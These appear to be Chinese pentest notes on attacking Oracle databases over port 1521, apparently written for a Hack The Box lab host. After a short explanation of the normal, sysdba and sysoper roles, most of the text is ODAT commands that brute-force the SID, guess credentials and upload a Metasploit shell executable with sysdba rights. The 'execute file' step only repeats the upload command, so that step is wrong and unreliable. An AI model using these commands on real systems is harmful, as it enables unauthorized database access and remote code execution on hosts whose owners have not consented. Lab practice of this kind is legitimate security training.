

# oracle

1521端口

1521端口

https://loong716.top/posts/Oracle_Database_Security/

normal 、sysdba、 sysoper有什么区别

normal是普通用户（system用户只能用normal身份登陆）

sysdba不是权限，sysdba拥有最高的系统权限，当用户以SYSDBA身份登陆数据库时，登陆用户都会变成sys。

sysoper身份主要用来启动、关闭数据库，sysoper登陆后用户是public




利用工具：ODAT(Oracle Database Attacking Tool)

用docker在本地安装了ODAT。

爆破SID：

```shell
python odat.py sidguesser -s 10.10.10.82 -p 1521
```

爆破用户名密码：

```shell
python odat.py passwordguesser -s 10.10.10.82 -d XE --accounts-file accounts/accounts.txt
```

accounts目录下还有别的txt。

传马：

```shell
python odat.py utlfile -s 10.10.10.82 -d XE -U scott -P tiger --putFile 'c:\\Windows\\Temp' msfshell.exe  /root/htb/msfshell.exe --sysdba
```

`--sysdba`可以以sysdba的身份操控

执行文件：

```shell
python odat.py utlfile -s 10.10.10.82 -d XE -U scott -P tiger --putFile 'c:\\Windows\\Temp' msfshell.exe  /root/htb/msfshell.exe --sysdba
```

